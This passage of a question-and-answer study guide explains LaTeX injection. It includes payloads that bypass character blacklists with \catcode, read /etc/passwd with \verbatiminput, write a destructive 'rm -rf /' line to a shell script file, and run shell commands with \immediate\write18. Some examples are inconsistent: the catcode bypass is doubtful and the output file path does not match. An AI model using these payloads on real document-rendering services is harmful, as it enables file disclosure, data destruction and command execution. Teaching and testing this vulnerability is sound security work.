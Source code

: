    - **Q6:** How would you bypass a LaTeX file reading restriction such as a blacklist of certain characters? Explain the role of `\catcode` and provide an example of bypassing a blacklist using Unicode encoding.
     - **A6:** The `\catcode` command in LaTeX defines the behavior of characters (e.g., whether they are treated as special characters). An attacker can change the `catcode` of characters like `$`, `#`, `_`, and `&` to treat them as regular characters and bypass restrictions. For example:
       ```latex
       \catcode`\$=12
       \catcode`\#=12
       \catcode`\_=12
       \catcode`\&=12
       \input{path_to_script.pl}
       ```
       This command redefines the `catcode` of special characters, allowing them to be included in file paths or script commands that would otherwise be blocked by input filters.

   - **Q7:** In the context of LaTeX Injection, explain the potential risks of using the `\verbatiminput` command. How can it be exploited by an attacker to read sensitive server files, such as `/etc/passwd`?
     - **A7:** The `\verbatiminput` command reads a file and outputs its contents without interpreting it, allowing an attacker to read sensitive files like `/etc/passwd` if they can control the file path. For example, an attacker might inject:
       ```latex
       \verbatiminput{/etc/passwd}
       ```
       This would cause LaTeX to print the raw contents of the `/etc/passwd` file in the document, potentially exposing sensitive system information.

### 3. **File Writing and Command Execution**
   - **Q8:** Describe how LaTeX Injection could be used to write arbitrary data to a file on the server. How could an attacker use the following code to achieve this?
     ```latex
     \newwrite\outfile
     \openout\outfile=cmd.tex
     \write\outfile{Hello-world}
     \write\outfile{Line 2}
     \closeout\outfile
     ```
     - **A8:** This LaTeX code writes arbitrary content to a file called `cmd.tex`. An attacker could exploit this by injecting malicious code into the file, such as:
       ```latex
       \newwrite\outfile
       \openout\outfile=/tmp/malicious_script.sh
       \write\outfile{rm -rf /}
       \closeout\outfile
       ```
       This would write a destructive shell command to a file, potentially leading to a system compromise.

   - **Q9:** What are the security implications of using the `\immediate\write18{}` command in LaTeX? How could an attacker use this feature to execute arbitrary shell commands on the server? Provide an example.
     - **A9:** The `\immediate\write18{}` command allows LaTeX to execute arbitrary shell commands on the server. This is extremely dangerous because it gives an attacker the ability to run any command if they can inject this into a LaTeX document. For example:
       ```latex
       \immediate\write18{ls > /tmp/output.txt}
       \input{output.txt}
       ```
       This would list the files in the server’s directory and include the output in the LaTeX document.
